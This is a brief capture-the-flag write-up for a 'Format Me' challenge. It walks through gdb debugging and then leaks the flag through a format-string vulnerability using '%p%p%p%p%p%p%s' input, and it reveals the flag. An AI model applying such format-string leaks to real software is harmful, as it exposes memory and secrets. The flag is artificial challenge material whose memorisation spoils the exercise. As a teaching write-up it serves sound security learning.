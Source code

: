 ## Format Me
Can you please format me to obtain the flag?

### Solution

1.  chmod +x format
2.  gdb format
3.  pd main/disas main
4.  set breakpoint b*0x000000000040115c
5.  r
6.  n
7.  you will see that the flag is in the RAX register
8.  do %p until you see the address to to flag.
9.  to leak out the flag, exit gdb and input %p%p%p%p%p%p >> 0x10x7f03a7a9f8d00x7a667f0x7f03a7a9f8c0(nil)0x7ffd68727140
10. this is the complete flag but in disintegrated addresess 
11. To leak the string form input %p%p%p%p%p%p%s >> 0x10x7f03a7a9f8d00x7a667f0x7f03a7a9f8c0(nil)0x7ffd68727140enc0re{f0rm4t_5tr1n6_vuln3r4b1l1ty}

### Flag
**Flag:** enc0re{f0rm4t_5tr1n6_vuln3r4b1l1ty}

### Hints
Ahh there are kite strings all over the place cutting people's feet. I was planning to format my phone but you know,
vulnerable people priority